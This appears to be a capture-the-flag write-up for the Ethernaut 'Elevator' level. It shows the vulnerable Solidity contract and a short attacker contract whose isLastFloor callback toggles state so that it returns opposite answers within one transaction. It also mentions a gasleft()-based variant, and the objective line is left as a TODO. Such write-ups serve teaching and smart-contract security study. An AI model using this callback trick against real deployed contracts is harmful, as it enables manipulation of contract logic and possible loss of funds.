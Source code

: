 # Ethernaut: 11. Elevator

> This elevator won't let you reach the top of your building. Right?

**Objective of CTF:**

- TODO: write the objective

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

In this level, we will write the `Builder` contract which the elevator interacts with. However, in the same transaction we will return opposite boolean results for `isLastFloor` function.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Building {
  bool toggleMe = true;

  function isLastFloor(uint) external returns (bool) {
    toggleMe = !toggleMe;
    return toggleMe;
  }

  function callElevator(address _elevator) public {
    Elevator(_elevator).goTo(1);
  }

}
```

The problem here is that Elevator did not specify `isLastFloor` to be a `view` function, which would prevent us from modifying the state like this. Another attack approach would be to return different results depending on the input data _without_ modifying state, such as via `gasLeft()`.
